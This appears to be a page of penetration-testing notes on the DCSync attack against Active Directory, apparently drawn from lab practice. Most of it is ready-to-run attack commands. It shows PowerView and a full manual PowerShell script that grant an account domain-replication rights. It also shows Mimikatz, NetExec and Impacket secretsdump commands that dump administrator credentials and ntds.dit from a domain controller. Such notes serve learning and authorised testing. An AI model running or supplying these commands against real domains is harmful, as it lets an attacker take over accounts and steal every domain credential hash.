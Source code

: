 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DCSync

## TL;DR

DCSync is late-phase attack that allows an attacker to **mimic a DC** and then dump `ntds.dit`. To perform this attack, we must have control over an account that has the rights to perform domain replication, aka **DCSync rights** (Figure 1):

1. `Replicating Directory Changes`
2. `Replicating Directory Changes All`
3. `Replication-Get-Changes-In-Filtered-Set` (sometimes)

{% hint style="info" %}
**Domain/Enterprise Admins** have these rights by default.&#x20;

If we have **`WriteDacl`**rights over an account, we can assign **DCSync rights** to it.&#x20;

The **Windows Exchange Permissions** group has **DCSync rights**.

_Example:_[ _Forest_](../../../../boxes/boxes/easy/forest.md#privilege-escalation)
{% endhint %}

## Attack

### Enumerate rights.

{% code overflow="wrap" %}
```powershell
# native, requires an elevated command prompt
dsacls "DC=domain,DC=local"
Get-DomainObjectAcl -Identity <USER> -Domain domain.local -ResolveGUIDs
```
{% endcode %}

### Assign DCSync rights

{% tabs %}
{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity <USER> -Rights DCSync
```
{% endcode %}
{% endtab %}

{% tab title="Manually" %}
{% code overflow="wrap" %}
```powershell
$acl = get-acl "ad:DC=domain,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=domain,DC=local"
```
{% endcode %}
{% endtab %}

{% tab title="DCSync.py" %}
{% code overflow="wrap" %}
```bash
DCSync.py -dc domain.local -t 'CN=<USER>,CN=Users,DC=domain,DC=local' 'domain.local\<USER>:<PASS>'
```
{% endcode %}
{% endtab %}
{% endtabs %}

Manual way explained [here](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md).

### Perform the DCSync attack.

{% tabs %}
{% tab title="Mimikatz" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\administrator"'
# or
mimikatz # lsadump::dcsync /domain:DOMAIN.LOCAL /user:DOMAIN\administrator
```
{% endtab %}

{% tab title="NetExec" %}
```bash
nxc smb 10.10.10.161 -u '<USER>' -p '<PASS>' --ntds --user administrator
```
{% endtab %}

{% tab title="Impacket" %}
{% code overflow="wrap" %}
```bash
impacket-secretsdump htb.local/hacker@10.10.10.161 -just-dc-user administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example of a DCSync attack using `DCSync.py` -> `secretsdump.py` check [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting), or using NetExec [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#dcsync-attack).

## Resources

{% tabs %}
{% tab title="DCSync" %}
{% embed url="https://www.alteredsecurity.com/post/a-primer-on-dcsync-attack-and-detection" %}
A great article about the DCSync attack.
{% endembed %}
{% endtab %}

{% tab title="Secretsump" %}
{% embed url="https://www.youtube.com/watch?v=QfyZQDyeXjQ" %}
How Secretsdump script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="dsacls" %}
{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771151(v=ws.11)" %}
{% endtab %}
{% endtabs %}

